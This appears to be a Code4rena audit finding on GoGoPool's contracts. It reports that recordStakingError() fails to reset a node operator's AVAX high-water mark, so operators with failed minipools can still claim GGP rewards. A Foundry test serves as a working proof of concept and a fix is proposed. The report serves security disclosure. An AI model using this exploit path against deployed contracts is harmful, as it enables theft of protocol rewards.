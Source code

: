 # Original link
https://github.com/code-423n4/2022-12-gogopool-findings/issues/471
# Lines of code

https://github.com/code-423n4/2022-12-gogopool/blob/aec9928d8bdce8a5a4efe45f54c39d4fc7313731/contracts/contract/MinipoolManager.sol#L484
https://github.com/code-423n4/2022-12-gogopool/blob/aec9928d8bdce8a5a4efe45f54c39d4fc7313731/contracts/contract/ClaimNodeOp.sol#L56
https://github.com/code-423n4/2022-12-gogopool/blob/aec9928d8bdce8a5a4efe45f54c39d4fc7313731/contracts/contract/ClaimNodeOp.sol#L89


# Vulnerability details

## Impact

The [documentation](https://multisiglabs.notion.site/Architecture-Protocol-Overview-4b79e351133f4d959a65a15478ec0121) says that the NodeOps could be elegible for GGP rewards if they have a valid minipool. The problem is that if the MiniPool [has an error](https://github.com/code-423n4/2022-12-gogopool/blob/aec9928d8bdce8a5a4efe45f54c39d4fc7313731/contracts/contract/MinipoolManager.sol#L484) while registering the node as a validator, the NodeOp can get rewards even if the minipool had an error.

When the Rialto calls ```recordStakingError()``` function the ```AssignedHighWater``` is not reseted. So the malicious NodeOp (staker) can create pools which will have an error in the registration and get rewards from the protocol.

## Proof of Concept

I created a test in ```ClaimNodeOp.t.sol```:

1. NodeOp1 creates minipool
2. Rialto calls claimAndInitiateStaking, recordStakingStart and recordStakingError()
3. NodeOp1 withdraw his funds from minipool
4. NodeOp1 can get rewards even if there was an error with the node registration as validator.

```solidity
function testRecordStakingErrorCanGetRewards() public {
    // NodeOp can get rewards even if there was an error in registering the node as a validator
    // 1. NodeOp1 creates minipool
    // 2. Rialot/multisig claimAndInitiateStaking, recordStakingStart and recordStakingError
    // 3. NodeOp1 withdraw his funds from minipool
    // 4. NodeOp1 can get rewards even if there was an error with the node registration as validator.
    address nodeOp1 = getActorWithTokens("nodeOp1", MAX_AMT, MAX_AMT);
    uint256 duration = 2 weeks;
    uint256 depositAmt = 1000 ether;
    uint256 avaxAssignmentRequest = 1000 ether;
    skip(dao.getRewardsCycleSeconds());
    rewardsPool.startRewardsCycle();
    //
    // 1. NodeOp1 creates minipool
    //
    vm.startPrank(nodeOp1);
    ggp.approve(address(staking), MAX_AMT);
    staking.stakeGGP(200 ether);
    MinipoolManager.Minipool memory mp1 = createMinipool(depositAmt, avaxAssignmentRequest, duration);
    vm.stopPrank();
    address liqStaker1 = getActorWithTokens("liqStaker1", MAX_AMT, MAX_AMT);
    vm.prank(liqStaker1);
    ggAVAX.depositAVAX{value: MAX_AMT}();
    //
    // 2. Rialto/multisig claimAndInitiateStaking, recordStakingStart and recordStakingError
    //
    vm.prank(address(rialto));
    minipoolMgr.claimAndInitiateStaking(mp1.nodeID);
    bytes32 txID = keccak256("txid");
    vm.prank(address(rialto));
    minipoolMgr.recordStakingStart(mp1.nodeID, txID, block.timestamp);
    bytes32 errorCode = "INVALID_NODEID";
    int256 minipoolIndex = minipoolMgr.getIndexOf(mp1.nodeID);
    skip(2 weeks);
    vm.prank(address(rialto));
    minipoolMgr.recordStakingError{value: depositAmt + avaxAssignmentRequest}(mp1.nodeID, errorCode);
    assertEq(vault.balanceOf("MinipoolManager"), depositAmt);
    MinipoolManager.Minipool memory mp1Updated = minipoolMgr.getMinipool(minipoolIndex);
    assertEq(mp1Updated.avaxTotalRewardAmt, 0);
    assertEq(mp1Updated.errorCode, errorCode);
    assertEq(mp1Updated.avaxNodeOpRewardAmt, 0);
    assertEq(mp1Updated.avaxLiquidStakerRewardAmt, 0);
    assertEq(minipoolMgr.getTotalAVAXLiquidStakerAmt(), 0);
    assertEq(staking.getAVAXAssigned(mp1Updated.owner), 0);
    // The highwater doesnt get reset in this case
    assertEq(staking.getAVAXAssignedHighWater(mp1Updated.owner), depositAmt);
    //
    // 3. NodeOp1 withdraw his funds from the minipool
    //
    vm.startPrank(nodeOp1);
    uint256 priorBalance_nodeOp = nodeOp1.balance;
    minipoolMgr.withdrawMinipoolFunds(mp1.nodeID);
    assertEq((nodeOp1.balance - priorBalance_nodeOp), depositAmt);
    vm.stopPrank();
    //
    // 4. NodeOp1 can get rewards even if there was an error with the node registration as validator.
    //
    skip(2629756);
    vm.startPrank(address(rialto));
    assertTrue(nopClaim.isEligible(nodeOp1)); //<- The NodeOp1 is eligible for rewards
    nopClaim.calculateAndDistributeRewards(nodeOp1, 200 ether);
    vm.stopPrank();
    assertGt(staking.getGGPRewards(nodeOp1), 0);
    vm.startPrank(address(nodeOp1));
    nopClaim.claimAndRestake(staking.getGGPRewards(nodeOp1)); //<- Claim nodeOp1 rewards
    vm.stopPrank();
}
```

## Tools used

Foundry/VsCode

## Recommended Mitigation Steps

The ```MinipoolManager.sol::recordStakingError()``` function should reset the Assigned high water ```staking.resetAVAXAssignedHighWater(stakerAddr);``` so the user can not claim rewards for a minipool with errors.